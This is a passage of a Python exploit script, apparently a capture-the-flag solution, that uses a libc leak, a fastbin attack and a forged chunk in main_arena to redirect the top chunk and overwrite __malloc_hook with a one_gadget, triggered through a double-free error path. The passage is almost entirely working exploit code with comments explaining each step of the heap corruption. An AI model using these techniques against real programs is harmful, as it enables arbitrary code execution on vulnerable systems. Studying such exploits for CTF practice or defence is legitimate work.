 ```python
# Calculate all offsets needed
main_arena = leak - 0x58
libc.address = leak - 0x3c4b78
system = libc.symbols['system']
free_hook = libc.symbols['__free_hook']
malloc_hook = libc.symbols['__malloc_hook']
one_gadget = libc.address + 0xf02a4

log.info('Leak: ' + hex(leak))
log.info('main arena: ' + hex(main_arena))
log.info('Libc base: ' + hex(libc.address))
log.info('system: ' + hex(system))
log.info('__free_hook: ' + hex(free_hook))
log.info('__malloc_hook: ' + hex(malloc_hook))
log.info('one_gadget: ' + hex(one_gadget))

'''
Same as the other exploit, except this time we overwrite the top chunk pointer
to the address of `__malloc_hook - 0x15`. We then request a chunk such that
it is serviced by the top chunk.

Then, just overwrite `__malloc_hook` with our working one gadget, and cause
a double free error. The double free error will call these functions in order:

free -> __libc_free -> _int_free -> malloc_printerr -> __libc_message
-> backtrace_and_maps -> init() -> dlerror_run -> _dl_catch_error
-> _dl_open -> _dl_catch_error -> dl_open_worker -> _dl_map_object
-> _dl_load_cache_lookup -> __strdup

__strdup will use malloc to do its string duplication
'''

# We don't want subsequent allocations to come out of the unsorted bin
# Since we will use our fake chunk a lot, it is guaranteed to be corrupted.
# Any subsequent mallocs will then just crash if the unsorted bin is used
# Therefore, just empty out the unsorted bin here by first changing its size to 0x61
# Then we allocate a 0x58 sized chunk
reintroduce(p64(0) + p64(0x61) + p64(leak) + p64(leak) + p64(0)*9 + p64(0x21))
add(0x58, 'A'*0x58) # 7

# We fake a 0x20 sized chunk and free it. This will be our fake chunk in main_arena.
# The main arena's fastbin[2], which is the 0x20 fastbin, will have a pointer to this chunk.
# Remember this chunk is in the .bss segment, so its address is 0x602040.
reintroduce(p64(0) + p64(0x31) + p64(0x21)*8)
free(6)

# Prepare for the fastbin attack: free a 0x61 sized chunk
reintroduce(p64(0) + p64(0x61) + p64(0x21)*18)
free(6)

# This is the address where the 0x602040 address from above looks 16 byte aligned
fake_chunk_top = main_arena + 0x10 - 0x6

# We set our fake chunk's fd pointer to point to our fake chunk in main arena
reintroduce(p64(0) + p64(0x61) + p64(fake_chunk_top) + p64(0))

# Chunk 9 will be in main arena, we overwrite it with malloc_hook-0x15
# If you look at that address-0x10, it looks like the top chunk header
# So we set the top chunk pointer to that address (malloc_hook-0x15)
add(0x50, 'B'*0x50) # 8
#add(0x50, '\x00'*0x3e + p64(free_hook - 0x1100 + 0x70 - 0x5)) # 9
add(0x50, '\x00'*0x3e + p64(malloc_hook - 0x15))

```